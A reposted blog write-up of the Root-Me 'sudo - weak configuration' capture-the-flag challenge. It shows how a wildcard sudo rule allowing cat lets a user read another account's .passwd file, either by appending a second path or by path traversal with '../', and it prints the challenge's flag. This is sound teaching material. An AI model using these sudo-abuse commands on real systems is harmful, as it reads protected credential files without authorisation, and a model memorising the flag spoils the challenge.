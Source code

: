 <!--yml
category: 未分类
date: 2022-04-26 14:20:35
-->

# CTF-rootme 题解之sudo - weak configuration_weixin_30663391的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30663391/article/details/99600320](https://blog.csdn.net/weixin_30663391/article/details/99600320)

link:[https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)

app-script-ch1@challenge02:~$ **cat readme.md**
Vous devez réussir à lire le fichier .passwd situé dans le chemin suivant :
/challenge/app-script/ch1/ch1cracked/

You have to read the .passwd located in the following PATH :
/challenge/app-script/ch1/ch1cracked/                       

the password path is:**/challenge/app-script/ch1/ch1cracked/.passwd**

app-script-ch1@challenge02:~$ **sudo -l** 

Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass,
    !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*

the file path which allowed for app-script-ch1-cracked is:**/challenge/app-script/ch1/ch1/**

**Solution 1:sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/ch1/*  ch1cracked/.passwd**

/bin/cat: /challenge/app-script/ch1/ch1/shared_notes: Permission denied
b3_c4r3full_w1th_sud0                //password

**Solution 2:sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd**

b3_c4r3full_w1th_sud0

The result is:b3_c4r3full_w1th_sud0